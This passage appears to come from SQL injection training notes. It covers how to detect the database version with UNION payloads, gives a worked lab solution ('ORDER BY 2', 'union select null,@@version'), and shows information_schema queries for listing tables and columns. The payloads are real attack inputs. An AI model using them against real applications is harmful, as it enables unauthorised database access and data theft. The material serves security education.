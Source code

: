 ```sql
' UNION SELECT @@version--
```

This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft CorporationStandard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

```
Solution

' ORDER BY 2-- -

' union select null,'a'-- -

' union select null,@@version-- -
```

## Listing the contents of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query`information_schema.tables`to list the tables in the database:

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

This output indicates that there are three tables, called`Products`,`Users`, and`Feedback`.

You can then query`information_schema.columns`to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
